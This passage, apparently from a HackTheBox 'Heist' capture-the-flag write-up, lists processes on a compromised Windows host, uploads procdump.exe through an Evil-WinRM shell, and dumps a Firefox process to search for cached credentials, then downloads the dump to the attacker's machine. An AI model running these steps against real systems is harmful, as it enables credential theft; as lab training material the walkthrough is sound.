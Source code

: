 ```
    272      14     3084      15128              6104   1 RuntimeBroker
    665      32    19596      61248              5564   1 SearchUI
    546      11     5008       9696               604   0 services
    681      28    14948      51212              5476   1 ShellExperienceHost
    441      17     4920      24068              4852   1 sihost
     53       3      524       1200               264   0 smss
    469      23     5840      16312              2504   0 spoolsv
    151       9     1656      11656               312   0 svchost
    199      12     1964       9704               328   0 svchost
    171       9     1488       7244               600   0 svchost
     85       5      892       3844               724   0 svchost
    863      20     7008      22636               744   0 svchost
...
...
...
```

Apart from the normal processes, it can be seen that `firefox` is also running. So, we can try to dump that process and see if we can find something useful in the dump like cached credentials.

We can dump the `firefox` process with the `procdump` tool. It can be downloaded from [SysInternal's website](https://download.sysinternals.com/files/Procdump.zip) (there are multiple binaries in the zip file but we can use the `procdump.exe`). To transfer this file to the target machine, we can simply use the `upload` functionality of `Evil-WinRM`.

```
*Evil-WinRM* PS C:\Users\Chase\Documents> upload procdump.exe
                                        
Info: Uploading /home/kali/HTB/heist/procdump.exe to C:\Users\Chase\Documents\procdump.exe
                                        
Data: 1055944 bytes of 1055944 bytes copied
                                        
Info: Upload successful!
```

Once the file is uploaded, we can use the PID of `firefox` to create its dump. (There are four instances of `firefox`, so we can create a dump for each one of them if needed) And then download it through `Evil-WinRM`

```
*Evil-WinRM* PS C:\Users\Chase\Documents> ./procdump.exe -accepteula -ma 6208

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[07:34:04] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_230611_073404.dmp
[07:34:04] Dump 1 writing: Estimated dump file size is 309 MB.
[07:34:05] Dump 1 complete: 309 MB written in 1.1 seconds
[07:34:05] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_230611_073404.dmp
                                        
Info: Downloading C:\Users\Chase\Documents\firefox.exe_230611_073404.dmp to firefox.exe_230611_073404.dmp
```
